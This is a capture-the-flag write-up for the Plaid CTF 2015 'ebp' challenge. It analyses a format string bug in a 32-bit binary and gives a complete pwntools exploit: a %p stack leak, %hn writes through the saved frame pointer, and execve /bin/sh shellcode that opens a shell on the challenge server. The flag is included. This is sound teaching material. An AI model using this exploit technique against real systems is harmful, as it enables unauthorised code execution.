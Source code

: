 #Plaid CTF 2015 Writeup:
##### Pwnable: 160 points 
##### Name: ebp
##### Description:
*nc 52.6.64.173 4545* 

*Download: %p%o%o%p.*

Running file on ebp:
>```bash
> $ file ebp
> ebp: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4e8094f9986968cd856db5093810badbb0749fde, not stripped
>```

Checksec:
>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : disabled
>PIE       : disabled
>RELRO     : Partial
>```

A 32 binary and it seems like the NX flag is disabled which means we can execute shellcode

Analyzing the assembly the vulnerbility lies within the code for *make_response*:
>```assembly
>gdb-peda$ disas make_response
>Dump of assembler code for function make_response:
>   0x080484fd <+0>:	push   ebp
>   0x080484fe <+1>:	mov    ebp,esp
>   0x08048500 <+3>:	sub    esp,0x18
>   0x08048503 <+6>:	mov    DWORD PTR [esp+0x8],0x804a080
>   0x0804850b <+14>:	mov    DWORD PTR [esp+0x4],0x400
>   0x08048513 <+22>:	mov    DWORD PTR [esp],0x804a480
>   0x0804851a <+29>:	call   0x80483f0 <snprintf@plt>
>   0x0804851f <+34>:	leave  
>   0x08048520 <+35>:	ret    
>End of assembler dump.
>```

The C code for that looks something like this:
>```C
> char input[1024];  //&input is 0x804a080
> char output[1024]; //&output is 0x804a480
> int make_response(){
>   return snprintf(output,0x400,input);
>}
>```

where input and output are global variables

So it seems that this is a case of a format string vulnerbility. 

Which makes sense since the description hints at %p %o %o %p

To be safe we assume there is aslr enabled on the server. We also need to utilize the format string to gain an arbitrary write and gain control flow of the program.

#####1. ASLR
  A way to defeat aslr is to use the format string vulnerbility to leak an address of the stack out to us.
  We can do so by using the *%p* format 
  
#####2. Control flow
  Since a format string vulnerbility also gives us the ability to write to the stack with the *%n* format we can utilize this to write to an address on the stack. If the buffers where our input was stored on the stack we can simply wrap around the stack into our buffers and use our input as addresses, however since our buffers are global buffers they are instead stored in the bss segment of the program.
  
  To remedy this we first use part 1 and leak out a stack address, then we use a saved frame pointer (ebp) to write to somewhere lower on the stack. What we want on the stack is something that we actually want to write to, the *return address* location. We use the %hn to write the size of a short to the stack which maintains the integrity of the 4 most significant bytes, this works because we know the return address is also on the stack with the ebp.
>```python
>r.send('%4$p\n') 
>
>addr = int(r.recv(0xa),16)+(OFFSET) #offset is the offset to the return address
>log.info('stack: %x'%addr)
>addr = addr&0xFFFF #we take only last 4 bytes so that we can make use the %hn format
>
>r.send('%.{0!s}u%4$hn\n'.format(addr)) ##write those bytes
>```
So now we have a pointer to the location of the return address, so we simply need to wrap around to that pointer and write to it. So we wrap around to our written address and change the return address, and have it point to our buffer in the bss.
Also we know that on our text segment and bss segment starts with 0x0804 which is why we can have it pivot to the buffer by writing only the size of a *short*.
>>>```python
>lower = bufaddr&0xffff
>r.send(shellcode+'%.'+str(lower-len(shellcode))+'u%12$hn\n')
>```

Putting it together:

__Note:__ I used pwntools for this exploit but should be simple enough to convert to a regular python exploit
```python
from pwn import *

context.log_level = 'info'
r = remote('52.6.64.173',4545)

bufaddr = 0x804a080
OFFSET = 4 ##Offset to the return address

shellcode ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

r.send('%4$p\n') 

addr = int(r.recv(0xa),16)+(OFFSET)
log.info('stack: %x'%addr)
addr = addr&0xFFFF 

r.send('%.{0!s}u%4$hn\n'.format(addr))
lower = bufaddr&0xffff
r.send(shellcode+'%.'+str(lower-len(shellcode))+'u%12$hn\n')

r.interactive()
```
flag is *who_needs_stack_control_anyway?*
> more information about format strings: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
